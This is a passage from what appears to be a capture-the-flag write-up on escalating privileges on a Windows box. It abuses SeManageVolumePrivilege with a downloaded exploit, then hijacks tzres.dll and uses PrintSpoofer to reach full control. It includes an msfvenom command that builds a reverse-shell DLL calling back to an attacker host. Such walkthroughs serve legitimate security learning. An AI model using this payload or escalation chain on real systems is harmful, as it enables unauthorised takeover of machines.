I start googling around and when searching for 'escalation via "SeManageVolumePrivilege"' I came across [this blog post](https://medium.com/@raphaeltzy13/exploiting-semanagevolumeprivilege-with-dll-hijacking-windows-privilege-escalation-1a4f28372d37). The post explains that there are exploits that leverage the `SeManageVolumePrivilege` to grant the user full write access to the `C:\` drive. Once this is done the attacker can easily use DLL hijacking to elevate privileges.

The linked blog post links out to [this exploit](https://github.com/xct/SeManageVolumeAbuse) for gaining access to the `C:\` drive. Unfortunately I could not get it to compile on my machine with the command:

```bash
i686-w64-mingw32-gcc -o smva.exe -lws2_32 SeManageVolumeAbuse.cpp
```

The compiler kept encountering errors in the `SeManageVolumeAbuse.cpp` file. Perhaps they could be fixed but I decided to look for a different exploit instead.

Fortunately I found [another exploit](https://github.com/CsEnox/SeManageVolumeExploit) of the same privilege that came with a [pre-compiled binary](https://github.com/CsEnox/SeManageVolumeExploit/releases/tag/public). I transferred that to the machine and ran it:

<figure><figcaption></figcaption></figure>

I now have the ability to write anywhere in `C:\`. I resume following the [original blog post's](https://medium.com/@raphaeltzy13/exploiting-semanagevolumeprivilege-with-dll-hijacking-windows-privilege-escalation-1a4f28372d37) steps and generate a malicious `tvres.dll`:


```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=X.X.X.X LPORT=135 -f dll -o tzres.dll
```


* I decide to close my shell on port 135 (running as `svc_apache`) because it is not that useful anymore and I would like to use that port for my elevated shell

I transfer the binary to the victim machine and write it to `C:\Windows\System32\wbem\tzres.dll`. I then run `systeminfo`:

<figure><figcaption></figcaption></figure>

The command failed (because the `tzres.dll` has no actual functionality other than a shell) but it did spawn a shell:

<figure><figcaption><p>Shell from systeminfo</p></figcaption></figure>

Unfortunately this still is not fully elevated. But it does have SeImpersonatePrivilege so it can be trivially exploited with [PrintSpoofer](https://github.com/itm4n/PrintSpoofer/tree/master):

<figure><figcaption><p>Elevated shell with PrintSpoofer</p></figcaption></figure>

Root access achieved!

## Learned

* **RunAsCs:** Had never heard of this incredibly useful alternative to the simple built-in runas
* **SeManageVolumePrivilege abuse vector:** had not heard of this privilege or exploit vector
  * It is always worth googling some form of "escalation via" and the privilege name (in quoutes) as there are seemingly endless privileges and abuse vectors

### Difficulty Rating

* **Foothold - 5/10:** Did not know about `.htaccess` ability to control MIME type so it took me awhile to figure out how to get the uploaded shell interpreted as PHP
* **Privilege Escalation - 7/10:** Used 3 different accounts and multiple unkown (to me) exploit vectors to elevate privileges
